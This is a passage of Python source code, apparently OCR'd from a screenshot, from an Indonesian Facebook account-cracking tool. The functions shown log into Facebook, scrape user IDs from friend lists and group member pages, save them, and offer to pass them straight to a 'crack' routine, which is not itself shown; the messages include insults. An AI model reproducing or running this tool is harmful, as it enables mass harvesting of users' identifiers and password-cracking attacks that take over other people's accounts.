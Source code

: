 		tampil('\rm[!]Login Gagal Goblok')
def saring_id_teman(r):
	for i in re.findall(r'/friends/hovercard/mbasic/\?uid=(.*?)&',r):
		id_bteman.append(i)
		tampil('\rc==>\rb%s\rm'%i)
def saring_id_group1(d):
	for i in re.findall(r'<h3><a href="/(.*?)fref=pb',d):
		if i.find('profile.php') == -1:
			a = i.replace('?','')
		else:
			a = i.replace('profile.php?id=','').replace('&amp;','')
		if a not in id_bgroup:
			tampil('\rk==>\rc%s'%a)
			id_bgroup.append(a)
def saring_id_group0():
	global id_group
	while 1:
		id_group = inputD('[?]Id Group')
		tampil('\rh[*]Mengecek Group....')
		a = buka('https://m.facebook.com/browse/group/members/?id='+id_group+'&amp;start=0&amp;listType=list_nonfriend&amp;refid=18&amp;_rdc=1&amp;_rdr')
		nama = ' '.join(re.findall(r'<title>(.*?)</title>',a)[0].split()[1:])
		try:
			next = br.find_link(url_regex= '/browse/group/members/').url
			break
		except:
			tampil('\rm[!]Luh buta atau minus id yang luh masukan salah goblok')
			continue
	tampil('\rh[*]Mengambil Id dari group \rc%s'%nama)
	saring_id_group1(a)
	return next
def idgroup():
	if log != 1:
		tampil('\rh[*]Login dulu bos...')
		login()
		if log == 0:
			keluar()
	next = saring_id_group0()
	while 1:
		saring_id_group1(buka(next))
		try:
			next = br.find_link(url_regex= '/browse/group/members/').url
		except:
			tampil('\rm[!]Hanya Bisa Mengambil \rh %d id'%len(id_bgroup))
			break
	simpan()
	i = inputD('[?]Langsung Crack (y/t)',['Y','T'])
	if i.upper() == 'Y':
		return crack(id_bgroup)
	else:
		return menu()
def idteman():
	if log != 1:
		tampil('\rh[*]Login dulu bosq...')
		login()
		if log == 0:
			keluar()
	saring_id_teman(buka('https://m.facebook.com/friends/center/friends/?fb_ref=fbm&ref_component=mbasic_bookmark&ref_page=XMenuController'))
	try:
		next = br.find_link(url_regex= 'friends_center_main').url
	except:
		if len(id_teman) != 0:
			tampil('\rm[!]Hanya dapat mengambil \rp%d id'%len(id_bteman))